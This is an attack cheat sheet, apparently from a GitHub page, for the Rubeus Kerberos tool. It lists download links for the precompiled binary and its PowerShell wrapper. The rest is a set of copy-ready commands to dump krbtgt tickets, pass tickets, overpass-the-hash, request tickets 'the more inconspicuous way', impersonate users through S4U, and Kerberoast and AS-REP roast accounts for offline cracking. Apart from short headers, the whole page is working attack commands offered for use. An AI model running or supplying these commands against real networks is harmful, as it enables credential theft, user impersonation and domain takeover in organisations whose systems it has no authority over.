 ### Sources or compile directly from github
* https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Rubeus.exe
* https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  
* https://github.com/GhostPack/Rubeus

## Note: Always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```

### Create new process (show pop up cmd shell)
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe /show'
```

### Pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```

### Kerberoasting
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt'
```

### Asrep roasting
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

